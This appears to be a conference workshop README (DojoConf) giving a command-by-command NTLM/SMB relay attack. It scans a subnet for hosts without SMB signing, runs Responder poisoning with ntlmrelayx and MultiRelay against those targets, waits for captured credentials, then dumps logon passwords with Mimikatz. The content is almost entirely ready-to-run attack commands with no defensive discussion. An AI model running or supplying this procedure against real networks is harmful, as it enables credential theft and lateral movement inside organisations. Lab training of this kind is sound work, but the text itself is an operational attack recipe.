 # DojoConf-Recursos

Comando de Busqueda herramientas:
```
find /usr/share/responder/ -name "MultiRelay.py" -print
find /usr/share/responder/ -name "ntlmrelayx.py" -print
```

1. Identify network systems that do not require SMB message validation to detect machine with SMB signing:disabled.
```
python RunFinger.py -i 192.168.0.0/24
```
2. Configure Impacket’s NTLMrelayx to target those systems
```
echo "IP"  >> targets.txt
 ```   
 ```
 python MultiRelay.py -t 192.168.0.4 -u ALL -d
 ntlmrelayx.py -tf targets.txt --smb2support
 ```
3. Disable SMB and HTTP response poisoning in Responder and launch
```
cd /usr/share/responder
```
```
gedit Responder.conf
```
4. Open the Responder.conf file and set the value of SMB and HTTP to Off
```
responder -I eth0 -rv
responder -I eth0 -rdw
```
5. Wait for creds
6. Invoke standard Mimikatz
```
mimi sekurlsa::logonpasswords
```




